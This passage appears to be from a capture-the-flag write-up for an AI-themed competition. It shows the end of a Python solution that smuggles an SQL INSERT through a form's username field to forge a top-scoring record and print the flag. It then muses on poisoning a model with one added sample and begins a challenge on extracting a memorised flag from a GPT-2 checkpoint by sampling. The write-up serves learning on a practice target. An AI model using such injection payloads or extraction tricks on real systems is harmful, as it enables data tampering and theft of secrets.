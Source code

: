 ```python
query = q + qq + """
INSERT INTO hedgehogs (username, furriness, cuteness, friendliness, 
                                   curiosity, agility, sleepiness, evaluation_score)
            VALUES ('last"""

response = requests.post("https://best-hedgehog.aictf.sg/add_hedgehog", data={
    "username": query,
    "furriness": f"{s[0]}",
    "cuteness": f"{s[1]}",
    "friendliness": f"{s[2]}",
    "curiosity": f"{s[3]}",
    "agility": f"{s[4]}",
    "sleepiness": f"{s[5]}",
    "evaluation_score": "100",
})

print(response.json()['flag']) # AI2025{jag@_i5_w4tch1ng_a1ways}
```

This challenge, despite its triviality, raises an interesting question: *is it possible to set $f(x^\ast)=k$ by adding only a single sample?* My gut feeling is that it *is* possible for sufficiently large $k$ if and only if we don't bound $|y|$ in the newly added sample $(x, y)$. (For this challenge, $y$ was constrained to $[0, 100]$.)

This intuition is derived from linear regression: one way to change $f(x^\ast)$ in the direction of $k$ would be to cause the direction of fastest change in $f(x)$ towards $k$ to point towards $x^\ast$. We could in theory do this by setting the new data point to $K \cdot (x^\ast, k)$ for sufficiently large $|k|$ and $K$. Unfortunately, this only applies to linear models. (If you have further insight on this, please [drop me an email](mailto:scallion3008@gmail.com)!)


### 'MLMpire'
Given a GPT-2 checkpoint trained on a bunch of logs containing the flag, we need to somehow retrieve the flag from the weights. The vocabulary consists only of the following 79 tokens:

```json
[
    "[PAD]", "[UNK]", "[CLS]", "[SEP]", "[MASK]",
    "a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z",
    "A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z",
    "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
    "{", "}", "_", ":", "=", "-", " ", ".", ":", ",", "/", "\""
]
```

Notably, the model is trained on a masked language modeling objective (hence the challenge name): given a sequence containing the `[MASK]` token, it attempts to fill it out.

The most obvious way to obtain the flag is by sampling sequences from the model, and hoping that it spits out the memorized flag at some point. A natural way to do this is to perform next-token prediction by appending `[MASK]` to the sequence we wish to continue.
